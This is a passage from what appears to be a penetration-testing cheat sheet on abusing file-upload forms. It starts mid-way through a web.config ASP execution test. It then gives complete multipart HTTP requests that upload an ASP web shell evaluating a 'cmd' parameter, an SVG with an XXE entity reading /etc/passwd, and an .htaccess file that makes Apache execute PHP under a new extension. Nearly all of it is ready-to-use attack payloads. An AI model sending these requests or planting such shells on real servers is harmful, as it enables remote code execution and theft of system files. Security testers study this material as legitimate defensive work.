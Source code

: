 ```
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
-----------------------------4829104394923874193918493216
```

#### ASP Extention Allowed - RCE
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="webshell.asp"
Content-Type: application/octet-stream

<% eval request("cmd") %>
-----------------------------4829104394923874193918493216
```

#### XML Extention Allowed - XXE
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename="xxe.xml"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
-----------------------------4829104394923874193918493216
```
#### Htaccess Extention Allowed - RCE
Only works on Apache servers. The uploaded .htaccess file will change the apache configuration to allow us to up a php file under a different extension.
```
POST /upload HTTP/1.1
Host: website.com
Content-Type: multipart/form-data; boundary=-----------------------------4829104394923874193918493216

-----------------------------4829104394923874193918493216
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: plain/text

AddType application/x-httpd-php .shelled
-----------------------------4829104394923874193918493216
```
